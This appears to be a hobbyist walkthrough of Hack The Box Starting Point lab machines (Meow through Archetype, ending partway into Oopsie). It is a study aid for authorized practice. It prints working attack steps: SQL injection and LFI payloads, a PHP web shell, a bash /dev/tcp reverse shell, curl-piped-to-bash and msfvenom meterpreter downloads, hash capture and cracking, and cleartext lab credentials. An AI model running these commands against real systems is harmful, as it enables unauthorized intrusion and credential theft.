***歡迎來到HTB新手村***

Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# 0.1 Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# 0.2 Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# 0.3 Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# 0.4 Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by `get flag`

# 1.1 Appointment

1. Check port 80 (HTTPS), and it is running

   `nmap -p 80 TARGET_IP`

2. Browse TARGET_IP in browser

3. Input `admin'#` for username (which is **SQL injection**), do not empty the password field

# 1.2 Sequel

1. Check running service, and port 3306 is running *SQL* service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. We can connect to the database with user **root** by a blank password

   `mysql -h TARGET_IP -u root`

3. After connecting to the database, check what schema is there: `show database;`

4. Use the schema htb: `use htb;`

5. See what tables in the schema: `show tables;`

6. See what is inside the *config* table: `select * from config;`, flag is there

# 1.3 Crocodile

1. Check running service on port 21 with version detection

   `nmap -p 21 -sV TARGET_IP`

2. Check HTTP running service (port 80) with version detection

   `nmap -p 80 -sV TARGET_IP`

3. Use **gobuster** to check any useful **php** file

   `gobuster dir -u TARGET_IP -x php -w /user/share/wordlists/dirb/common.txt`

   

4. Check the TARGET_IP/login.php in browser

5. As FTP is running, go check the file in FTP

6. `ftp TARGET_IP`, login as `anonymous`, then `ls`

7. ftp> `get allowed.userlist`, ftp> `get allowed.userlist.passwd`

8. input the user **`admin`** with the corresponding password in **.passwd** file to login

# 1.4 Responder

1. Check all ports: `nmap -p- -T5 -sS TARGET_IP`

   

2. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`

   

3. Append the domain name resolve with the ip in `/etc/hosts`, to access the webpage

   `echo "TARGET_IP unika.htb" | sudo tee -a /etc/hosts`

   > hosts檔案是一個用於儲存電腦網路中各節點資訊的電腦檔案。這個檔案負責將主機名對映到相應的IP位址。hosts檔案通常用於補充或取代網路中DNS的功能。和DNS不同的是，電腦的使用者可以直接對hosts檔案進行控制。

4. After accessing the page, we notice that the URL parameter **page** is vulenarble for local file inclusion, some wordlist example: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

   `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

   

5. Check whether the Responder is configured to listen **SMB**, then run responder on the `tun0` interface, use **python3.9** as **python3.10** does not work

   `python3.9 /usr/share/responder/Responder.py -I tun0`

   > config file is located at /usr/share/responder/Responder.conf

8. Tell the server to include a resource from our Responder SMB server by typing the URL

   `http://unika.htb/?page=//{responder_server_ip}/somefile`

8. There would be a hash response to us

   

8. Put the hash into a file `hash.txt` and use `john` to crack it with worldlist

   `john -w=/usr/share/wordlists/rockyou.txt hash.txt`

   

8. As we know that WinRM service is running, we can use **evil-winrm** to get a session to run the **Powershell** of the remote host

   `evil-winrm -i {TARGET_IP} -u administrator -p badminton`

8. the flag is in `C:\Users\mike\Desktop\flag.txt`, use `type` (PowerShell command ) to print the flag out

# 1.5 Three

1. Run a `nmap` scan: 

   ```shell
   nmap -sV TARGET_IP
   ```

   

2. As we know that **http** is on service, now we can use **Wappalyzer** to understand the technology stack of the website

   

3. And in the **contact** section, we can know that the domain of the email address is **thetoppers.htb**

4. In the absence of a DNS server, in order to resolve the hostname to IP address, we have to append the resolution into the `/etc/hosts` file

   ```shell
   echo "TARGET_IP thetoppers.htb" | sudo tee -a /etc/hosts
   ```

5. Let's enum for any subdomain using `gobuster`, we would use **seclists** word lists particularly for **subdomains**, reference https://www.kali.org/tools/seclists/

   ```shell
   apt-get update && apt -y install seclists
   ```

   ```shell
   gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
   ```

   

6. And we can know that there is a subdomain which is `s3`, let's append it to the `/etc/hosts` file

   > Amazon S3 https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html

   **Change the record from `TARGET_IP thetoppers.htb` to `TARGET_IP s3.thetoppers.htb` and reset the targer machine!

7. Let's interact with the S3 bucket by installing the `awscli` utility

   ```shell
   apt install awscli
   ```

8. Configure the `aws` with arbitrary value (`temp`) is a must for `aws` to work, and we assumed that the server is configured to not check authentication so any value is fine

   ```shell
   aws configure
   ```

   

9. Check all of the **S3 buckets** hosted by the server. Check the **objects and common prefixes** under the specified bucket, and we can know that the apache server use **S3 storage** as **webroot**, and the language is **PHP**

    > https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
    ```

    

11. Now we are going to create a **one-liner PHP** and upload it to the S3 bucket, the `system()` function use the URL parameter `cmd` as an input, to run **any linux command**

    ```shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
    ```

12. Now go navigate the URL with the our shell.php (**Change the host record from `TARGET_IP s3.thetoppers.htb` to `TARGET_IP thetoppers.htb`)

    ```
    http://thetoppers.htb/shell.php?cmd=id
    ```

    

    As the above picture shows it runs the linux command `id` through the `cmd` URL parameter

13. Now let's create a reverse shell `shell.sh` containing the following **bash reverse shell payload** which will connect back to our local machine via the `tun0` IP address on port `1337`

    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/<TUN0_IP>/1337 0>&1
    ```

14. Then we start a `ncat` listener on our local port `1337`

    ```bash
    nc -nvlp 1337
    ```

15. Now we host the `shell.sh` on a `python3 http.server` by running the following command in the directory where `shell.sh` locates

    ```bash
    python3 -m http.server 8000
    ```

17. By using our one-liner PHP, insert the command we would like to execute in the `cmd` parameter, here we use the `curl` utility to fetch the bash reverse shell file from our local host, then pipe it to `bash` to execute the file

    ```
    http://thetopper.htb/shell.php?cmd=curl%20<VM_IP_Address>:8000/shell.sh|bash
    ```

    
    
    A successful reverse shell connected, now we can execute any command here. Finally, we can see the flag.
    
# 2.1 Archetype

1. Run a `nmap` scan

   ```
   nmap -sV TARGET_IP
   ```

   

   Port **139 and 445** is opened for **SMB** on service. Port **1433** is opened for **Microsoft SQL Server 2017**

2. We would eumerate the SMB with the tool `smbclient` (-N: No password, -L List services)

   ```bash
   smbclient -N -L \\\\{TARGET_IP}\\
   ```

   

3. The Sharename with **backups** is non-Administrative share (*without $*). Let's go enum the backups share.

   ```
   smbclient -N \\\\{TARGET_IP}\\backups
   ```
   List the directory in backups share, dowload the file `prod.dtsConfig` for further offline inspection.

   ```
   smb: \> dir
   smb: \> get prod.dtsConfig
   smb: \> exit
   ```

   

   

4. We can see a User ID `sql_svc` with password `M3g4c0rp123` under the host `ARCHETYPE` in cleartext

5. As we got the credentials, we just need **Impacket** tool which includes a python script called `mssqlclient.py` to **connect and authenticate to the MSSQL server**. In Kali, the Impacket is preinstalled.

    ```bash
    locate mssqlclient.py
    cd /usr/share/doc/python3-impacket/examples/
    ```

6. Run the script in the format `domain`/`username`:`password`@`targetIP or name`, we would use *windows authentication* method

    ```
    python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@{TARGET_IP} -windows-auth
    ```

    And we are successfully authenticated to the MSSQL server and get a session of it.

7. Let's run `xp_cmdshell` and try command excution, we will use `powershell -c` for more features rather than regular command prompt

   ```bash
   SQL> enable_xp_cmdshell
   SQL> xp_cmdshell "powershell -c pwd"
   ```

8. Now attempt to get a **stable reverse shell**. Generate a reversed shell by `msfvenom` (`msfvenom -l payloads` to list the payloads it can provide)

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TUN0_IP> -f exe -o winRevShell.exe
   ```

9. Use `msfconsole` to configure and handle the reverse shell connection (you can run `help search` to *show options* for the search modules function)

    ```bash
    msfconsole
    msf6> use exploit/multi/handler
    msf6 exploit(multi/handler)> set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler)> show options
    msf6 exploit(multi/handler)> set LHOST <TUN0_IP>
    msf6 exploit(multi/handler)> run
    ```

    

    Now the handler is ready for reverse connection from the target machine.

10. Let's upload our `winRevShell.exe` by python server.

    ```bash
    python3 -m http.server 80
    ```

11. Then `wget` it in the target machine through the SQL shell. As a `sql_svc` user, we would change directory to his user folder which has enough privilege to modify the folder.

      ```bash
      SQL> xp_cmdshell "powershell -c cd C:/Users/sql_svc/Documents; wget http://10.10.14.201/winRevShell.exe -outfile winRevShell.exe; dir"
      ```

      

12. Let's run the `winRevShell.exe`

       ```bash
       SQL> xp_cmdshell "powershell -c C:/Users/sql_svc/Documents/winRevShell.exe"
       ```

       

       Now we receive a meterpreter session (use **help** to see commands) from the target machine!

13. The **user** flag is in the user `sql_svc` desktop, `cat` it out.

       ```bash
       meterpreter> cat C:/Users/sql_svc/desktop/user.txt
       ```

      (You can also try other commands like `run post/windows/gather/credentials/[tap Tab]` to gather credentails on Windows, `run post/multi/recon/local_exploit_suggester` to suggest exploits)

14. As we noticed that there an `Admintrator` user in the Windows machine, we are going to use **winPEAS** (Windows Privilege Escalation Awesome Script) for privilege escalation. Download winPEASx64.exe from https://github.com/carlospolop/PEASS-ng/releases, then upload it to the target.

     ```bash
     root@kali[~]> wget https://github.com/carlospolop/PEASS-ng/releases/download/20220911/winPEASx64.exe
     meterpreter> upload winPEASx64.exe
     ```

15. Run it via *PowerShell*

     ```
     meterpreter> shell
     C:\Users\sql_svc\Documents> .\winPEASx64.exe
     ```

16. After running you got *many exploits information*, as a **service account**, it is worth to check the frequently access files or executed commands. Let's go check the **PowerShell history file**. The path is the following:

     

     ```powershell
     type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
     ```

     

     User `administrator` with password `MEGACORP_4dm1n!!` is there.

17. As **port 5985 (Microsoft Windows Remote Management)** is opened, now use `evil-winrm` to login as `administrator`

     ```bash
     evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i TARGET_IP
     ```

      

     The root flag is in the `C:\Users\Administrator\Desktop\root.txt`!

# 2.2 Oopsie

1. `nmap` scan with script

   ```
   nmap -sCV TARGET_IP
   ```

   

2. We use **Burp Suite** (Proxy tool, which can be usedt to *intercept the web traffic*) to passively spider the website. We turn the **intercept mode off** first, to spider the site into a sitemap that weren't visible while browsing.

3. 

4. We particularly interested on the login script js file.
